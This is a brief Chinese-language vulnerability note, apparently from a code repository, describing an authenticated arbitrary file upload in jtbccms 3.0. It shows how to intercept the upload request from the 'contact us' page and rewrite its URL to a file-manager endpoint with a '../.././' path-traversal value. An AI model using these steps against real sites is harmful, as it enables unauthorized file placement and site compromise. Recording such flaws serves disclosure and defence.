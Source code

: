 ### jtbccms

```
版本信息：3.0
```

#### 后台任意文件上传

登录后在联系我们处上传文件

![image-20221202143131775](images/image-20221202143131775.png)

然后抓包，将该请求包的URL修改

![image-20221202143222920](images/image-20221202143222920.png)

改为

```
/console/file/manage.php?type=action&action=addfile&path=../.././
```

![image-20221202143243875](images/image-20221202143243875.png)

上传后的文件

![image-20221202143422767](images/image-20221202143422767.png)

